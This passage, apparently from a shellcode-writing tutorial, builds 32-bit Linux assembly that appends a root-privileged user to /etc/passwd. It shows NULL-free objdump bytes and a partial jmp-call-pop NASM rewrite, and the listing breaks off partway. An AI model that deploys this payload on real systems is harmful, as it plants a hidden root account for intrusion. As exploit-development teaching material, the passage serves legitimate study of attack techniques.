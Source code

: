         len equ $-newuser
        filename: db "/etc/passwd"
{% endhighlight %}

So far we have this NULL free hex bytes:
~~~
root@ubuntu:~/user-add-shlc# objdump -d useradd2 -M intel                                                          

useradd2:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:       b0 05                   mov    al,0x5
 8048082:       bb e6 90 04 08          mov    ebx,0x80490e6
 8048087:       66 b9 01 04             mov    cx,0x401
 804808b:       cd 80                   int    0x80
 804808d:       89 c6                   mov    esi,eax
 804808f:       31 c0                   xor    eax,eax
 8048091:       b0 04                   mov    al,0x4
 8048093:       89 f3                   mov    ebx,esi
 8048095:       b9 a8 90 04 08          mov    ecx,0x80490a8
 804809a:       b2 3e                   mov    dl,0x3e
 804809c:       cd 80                   int    0x80
 804809e:       31 c0                   xor    eax,eax
 80480a0:       b0 01                   mov    al,0x1
 80480a2:       31 db                   xor    ebx,ebx
 80480a4:       cd 80                   int    0x80
root@ubuntu:~/user-add-shlc# 
~~~

Static addresses are problem for us, because when shellcode is inserted into memory this static addresses doesn't exist. We need somehow address this issue via `jmp - call - pop` technique
{% highlight nasm %}
; Adds new user to /etc/passwd with root id
global _start

section .text
_start:
        ; int open(const char *pathname, int flags)
        ; ssize_t write(int fd, const void *buf, size_t count)
        ; write - 4
        ; open - 5

        ; call open
        mov eax, 0x5
        jmp filename
back_filename:
        pop ebx
        mov ecx, 0x401
        int 0x80
        mov esi,eax ; save file descriptor

        ; call write
        xor eax,eax
        mov eax,0x4
        mov ebx,esi
        jmp newuser
back_newuser:
        ; calculate length and put in edx register
        call calculate_len
        mov edx,esi
        int 0x80

        ; call exit(0)